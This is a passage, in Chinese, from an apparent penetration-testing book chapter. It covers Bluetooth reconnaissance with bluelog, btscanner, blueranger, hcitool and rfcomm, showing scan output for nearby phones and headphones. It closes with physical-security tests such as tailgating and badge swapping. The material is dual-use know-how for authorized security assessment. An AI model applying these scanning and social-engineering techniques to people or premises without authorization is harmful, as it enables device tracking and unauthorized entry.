root@pi-kali:~# bluelog -i hci0 -o /root/bt-log.txt -vnmct
Bluelog (v1.1.2) by MS3FGX-----------------------------------Initializing
device...OK
Opening output file: /root/bt-log.txt...OK
Writing PID file:
/tmp/bluelog.pid...OK
Scan started at [02/22/17 01:53:30] on 00:1A:7D:DA:71:10.
```

按 Ctrl + C 结束扫描：

```
[02/22/17 01:56:02] 58:40:4E:50:D1:0E, JB's iPhone, 0x7a020c
[02/22/17 01:56:17] 8C:DE:52:1F:F5:07, SRS-BTM8, 0x240414
[02/22/17 01:58:05] C0:CE:CD:0F:D4:BA, Ryan's iPhone, 0x7a020c
```

根据我的发现，你可以看到我的区域是一个蓝牙密集区域。重要的是我需要检查这个列表，如果有任何奇怪之处，就进一步调查。但是，作为渗透测试人员，你的工作是运行、观察、记录并报告。

我没有看到这被定义为策略或要求，但我绝对建议定期执行这些检查。类似的 WiFi 检查由 PCI 等组织要求。加入这些检查也不会有坏处，有助于增强安全态势。

## Btscanner

Btscanner 是另一个很棒的蓝牙扫描工具，但与 bluelog 相比它具有更多功能。我喜欢使用 btscanner，因为你可以查看找到的设备并查看这些设备的许多信息。

从命令行运行 btscanner 非常简单。在 CLI 上，输入以下命令：

```
btscanner
```

运行此命令将打开一个简单的 GUI。GUI 底部有一个菜单，显示你可以执行的操作。接下来你想要做的就是输入 I 进行 inquiry 扫描。这将启动环境扫描。随着设备的发现，它们将开始在窗口上显示。以下是我的实验室中找到的内容的截图：


btscanner 的一个非常方便的功能是，你可以在设备上使用上下箭头，然后按回车。你将被带到该特定设备的详细信息和描述。这些信息在诊断设备是否合法时非常有用。


```
RSSI: +0   LQ: 000   TXPWR: Cur  +0
Address:       48:3B:38:EB:5D:9F
Found by:      00:1A:7D:DA:71:10
OUI owner:
First seen:    2017/02/22 02:07:39
Last seen:     2017/02/22 02:10:10
Name:          Powerbeats Wireless
Vulnerable to:
Clk off:       0x1e72
Class:         0x240418
              Audio-Video/Headphones
Services:      Rendering,Audio

HCI Version
---------
LMP Version: 4.0 (0x6) LMP Subversion: 0x2576
Manufacturer: Cambridge Silicon Radio (10)

HCI Features
---------
Features:      0xff 0xff 0x8f 0xfe
  <3-slot packets> <5-slot packets> <encryption> <slot offset>
  <timing accuracy> <role switch> <hold mode> <sniff mode> <park state>
  <RSSI> <channel quality> <SCO link> <HV2 packets> <HV3 packets>
  <u-law log> <A-law log> <CVSD> <paging scheme> <power control>
  <transparent SCO> <broadcast encrypt> <EDR ACL 2 Mbps>
  <EDR ACL 3 Mbps> <enhanced iscan> <interlaced iscan>
  <interlaced pscan> <inquiry with RSSI> <extended SCO> <EV4 packets>
  <EV5 packets> <AFH cap. slave> <AFH class. slave> <LE support>
  <3-slot EDR ACL> <5-slot EDR ACL> <sniff subrating>
  <pause encryption> <AFH cap. master> <AFH class. master>
  <EDR eSCO 2 Mbps> <EDR eSCO 3 Mbps> <3-slot EDR eSCO>
  <extended inquiry> <LE and BR/EDR> <simple pairing>
  <encapsulated PDU> <non-flush flag> <LSTO> <inquiry TX power> <EPC>
  <extended features>
```

## 蓝牙测距器

Blueranger 是一个小型程序/脚本，可通过测试 l2cap ping 来帮助定位蓝牙设备距离你的设备有多远。它测量 ping 的链路质量，以帮助确定它认为蓝牙设备距离你的传感器有多远。在选项方面它非常简单。你只需要将你的蓝牙接口以及设备地址（MAC 地址）传递给它：

```
root@pi-kali:~# blueranger.sh
BlueRanger 1.0 by JP Dunning (.ronin)
<www.hackfromacave.com>
(c) 2009-2012 Shadow Cave LLC.
NAME
blueranger
SYNOPSIS
blueranger.sh <hciX> <bdaddr>
DESCRIPTION
<hciX>      Local interface
<bdaddr>    Remote Device Address
```

由于你需要知道远程设备地址，我通常会将此程序与 bluelog 配合运行。有了 bluelog，我可以看到所有设备。让我们看下面的示例：



根据 bluelog 的发现，我会将找到的每个设备都输入到 blueranger 中，以查看它们是否彼此靠近或其中一个更远。第一个设备是 iPhone。我可以看到底部的 ping 计数和范围刻度，其中左侧正好在传感器旁边，右侧则是它能读取的最远距离。因此根据该设备的读数，iPhone 相对于传感器来说比较接近：



接下来，我将在 SRS-BTM8 设备上运行它。这里我也可以看到 ping 计数。但请注意，链路质量较低，因此范围图更处于图表中间。因此，我可以由此确定手机靠近传感器，而 SRS-BTM8 设备确实更远：



再次强调，此工具的目的是根据测量的链路质量帮助定位通过扫描找到的任何蓝牙设备。显然，其他因素会影响链路质量；但在我的测试中，blueranger 还是相当准确的。

## 使用 Hcitool 扫描

Hcitool 是一个很棒的内置蓝牙连接配置工具。你可以运行很多快速的小命令来获取一些关于你找到的蓝牙设备的信息，从而帮助你获得更多关于它的信息。hcitool 有趣的地方在于它做了一些需要我们之前讨论过的多个工具才能完成的事情。正因为如此，它可以简化蓝牙设备的调查。命令结构简化，但具有许多命令选项，这使其非常有用：

```
root@pi-kali:~# hcitool
hcitool - HCI Tool ver 5.43
Usage:      hcitool [options] <command> [command parameters]
Options:
--help Display help
-i dev HCI device
```

至于命令选项，有很多，取决于你想要查找的内容。我建议查看 man 手册或 --help 以查看完整列表。列表相当长，这体现了其强大功能。

现在，让我们测试其中一些命令。首先，hcitool 可以进行扫描。然而，与 bluelog 不同，它并不是为了长时间运行而设计的，比如守护进程模式。但不管怎样，它确实会显示附近发现了什么。如以下代码所示，这是我在实验室中发现的内容。

```
root@pi-kali:~# hcitool -i hci0 scan
Scanning ...        48:3B:38:EB:5D:9F      Powerbeats Wireless
8C:DE:52:1F:F5:07      SRS-BTM8
```

现在，如果我想获取其中一项的更多信息，我可以传递 info 命令：

```
root@pi-kali:~# hcitool -i hci0 info 48:3B:38:EB:5D:9F
Requesting information ...
        BD Address:  48:3B:38:EB:5D:9F
        OUI Company: Apple, Inc. (48-3B-38)
        Device Name: Powerbeats Wireless
        LMP Version: 4.0 (0x06) LMP Subversion: 0x2576
        Manufacturer: Cambridge Silicon Radio (10)
        Features page 0: 0xff 0xff 0x8f 0xfe 0xdb 0xff 0x5b 0x87
                <3-slot packets> <5-slot packets> <encryption> <slot offset>
                <timing accuracy> <role switch> <hold mode> <sniff mode>
                <park state> <RSSI> <channel quality> <SCO link> <HV2 packets>
                <HV3 packets> <u-law log> <A-law log> <CVSD> <paging scheme>
                <power control> <transparent SCO> <broadcast encrypt>
                <EDR ACL 2 Mbps> <EDR ACL 3 Mbps> <enhanced iscan>
                <interlaced iscan> <interlaced pscan> <inquiry with RSSI>
                <extended SCO> <EV4 packets> <EV5 packets> <AFH cap. slave>
                <AFH class. slave> <LE support> <3-slot EDR ACL>
                <5-slot EDR ACL> <sniff subrating> <pause encryption>
                <AFH cap. master> <AFH class. master> <EDR eSCO 2 Mbps>
                <EDR eSCO 3 Mbps> <3-slot EDR eSCO> <extended inquiry>
                <LE and BR/EDR> <simple pairing> <encapsulated PDU>
                <non-flush flag> <LSTO> <inquiry TX power> <EPC>
                <extended features>
        Features page 1: 0x03 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

我还喜欢做的是检查设备的 RSSI 和功率水平。再次与 blueranger 类似，它会给我一个关于设备有多近的某种概念。但运行这些命令确实需要我连接到设备。这是通过 rfcomm 命令完成的。一旦我运行它，我就可以查询设备：

```
root@pi-kali:~# sudo rfcomm connect 0 8C:DE:52:1F:F5:07 10 >/dev/null&
```

现在我已连接，我将使用 rssi 命令检查 RSSI，使用 lq 命令检查链路质量，以及使用 tpl 命令检查功率水平。以下是两个命令的输出：

```
root@pi-kali:~# hcitool -i hci0 rssi 8C:DE:52:1F:F5:07
RSSI return value: -2
root@pi-kali:~# hcitool -i hci0 lq 8C:DE:52:1F:F5:07
Link quality: 252
root@pi-kali:~# hcitool -i hci0 tpl 8C:DE:52:1F:F5:07
Current transmit power level: 4
```

这些只是使用 hcitool 的一些示例。这是我蓝牙研究中使用的一个很棒的小工具。

## 物理安全注意事项

尽管我在谈论网络基础设施，但我不能不谈论需要进行的物理安全测试。想想看，你可以拥有所需的所有防火墙、IPS 设备、VLAN 分段，但如果有人可以直接进入数据中心，关闭服务器，拆下机架并离开，那么这些设备根本帮不上忙。这就是为什么像 PCI 这样的重要安全标准也要求进行物理安全测试。

物理安全测试不如攻击网络基础设施那样令人兴奋，但在保护你的基础设施方面同样重要。以下是你需要测试的一些主要物理安全要点。


## 安全访问
安全访问是物理安全的基石。任何不被视为公共空间的区域，都应有机制根据职位角色限制对该区域的访问。该机制可以是某种门禁卡或徽章读卡器、生物识别设备，或它们的组合。根据职位角色限制访问的能力对于防止未经授权访问某人本不应接触的信息至关重要。

渗透测试员的工作是走遍设施，查看你能够进入和不能进入的房间和区域。记录所有发现。但不要止步于此。与其他员工交朋友，尤其是那些能进入你无法进入的场所的人。测试他们是否会允许你跟随进入而无需扫描你的徽章或生物识别信息。此类行为应被记录并报告。员工绝不应让他人尾随进入。这应作为公司安全政策中的书面规定，员工应每年审查一次，以确保了解任何变更。


如果公司在某些访问点部署了双因素认证，也应使用他人的徽章和你的指纹或反之进行测试。这是一个确保系统正确联动而非仅作摆设的好方法。

## 员工/供应商识别
这可能是最简单、最便宜却又强大的物理安全控制措施之一，应予以实施。确保建筑物内的每个人始终佩戴某种形式的徽章，并且能够轻松区分员工、承包商和访客。视觉标识至关重要，因为如果所有访客都佩戴红色徽章而员工佩戴白色徽章，并且你在安全区域注意到红色徽章，就知道应报告该人员。

对此的一个简单测试是走遍办公室，寻找任何违反政策的迹象。此过程包括寻找任何未佩戴正确身份标识的人。我会询问各种人员，以确保他们的徽章与其正确职能相符（即，他们是否确实是佩戴员工徽章的员工，是否拿了别人的徽章，或被发放了错误的类型？）。

下面的截图是员工与访客之间视觉差异的绝佳示例。

## 总结
我们现在完成了第7天，让我们回顾一下。确保基础设施得到保护对任何客户/公司都很重要，因此作为渗透测试员，找到可能存在的问题是我们的职责。我以各种用于执行有线网络攻击的工具开始了本章。这包括基于 SNMP 的问题以及 DHCP，然后转向基于 DOS 的攻击。然后我转向了无线攻击。这些非常重要，因为无线攻击往往更容易执行，因为它们不需要像某些有线攻击那样进行物理网络连接。在无线方面，我展示了各种用于监控无线电波的工具，以及如何攻击无线弱点，例如 WPA、WEP，当然还有围绕无线的社会工程学。然后我提及了一些基于蓝牙的工具，用于监控渗透测试员正在测试的设施范围内可能存在的蓝牙设备。随着越来越多的蓝牙设备进入企业，无论好坏，在任何渗透测试中都应包含蓝牙。最后，我以一些应包含在渗透测试中的快速物理安全考虑事项结束了本章。物理安全与我们已讨论过的所有其他安全考虑一样重要，不应被忽视。我给出的这些示例是获得非常强大的物理安全状况的快速、简单且有效的方法。

在下一章，我将讨论 Web 应用程序攻击。Web 应用程序可能相当复杂，但由于它们经常暴露于外部世界，往往是黑客的目标。这就是为什么确保它们安全很重要。我将介绍一些用于测试 Web 应用程序各个方面的工具。这将包括会话管理、数据验证和错误处理等主题。
